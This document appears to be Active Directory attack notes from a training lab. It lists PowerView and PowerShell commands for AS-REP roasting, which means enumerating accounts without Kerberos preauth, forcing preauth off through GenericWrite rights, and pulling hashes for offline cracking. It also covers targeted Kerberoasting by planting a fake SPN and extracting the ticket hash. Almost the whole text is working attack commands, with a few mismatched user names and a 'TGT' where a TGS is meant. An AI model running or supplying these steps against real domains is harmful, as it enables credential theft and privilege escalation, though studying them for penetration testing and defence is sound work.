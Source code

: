Enumerating accounts with Kerberos Preauth disabled
```powershell
# Using PowerView
Get-DomainUser -PreauthNotRequired -Verbose
```

With sufficient rights (`GenericWrite` or `GenericAll`), Kerberos preauth can be forced disabled.
```powershell
# Enumerate the permissions for RDPUsers on ACLs using PowerView (dev)
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

# Force disable Kerberos Preauth
Set-DomainObject -Identity Control1User -XOR @{useraccountcontrol=4194304} -Verbose

# Check
Get-DomainUser -PreauthNotRequired | ?{$_.samaccountname -eq "Control650user"}
```

Request encrypted AS-REP for offline brute-force.

```powershell
Get-ASREPHash -UserName VPN1user -Verbose
```

To enumerate all users with Kerberos preauth disabled and request a
hash:

```powershell
Invoke-ASREPRoast -Verbose
```

## Set-SPN

With enough rights (`GenericAll`/`GenericWrite`), a target user's SPN can be set to anything, as long as it is unique in the domain.

We can then request a TGS without special privileges. 

Check if SPN is set on support650user
```powershell
Get-DomainUser -Identity support650user | select serviceprincipalname
```

Then set a fake SPN
```powershell
Set-DomainObject -Identity support650user -Set @{serviceprincipalname='dcorp/blob650'} -Verbose
```

Request TGT, export and crack.
```powershell
Add-Type -AssemblyName System.IdentityModel 

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "dcorp/blob650"
```

Can also use PowerView dev to request a ticket.
```powershell
Get-DomainUser -Identity support650user | Get-DomainSPNTicket | select -ExpandProperty Hash
```
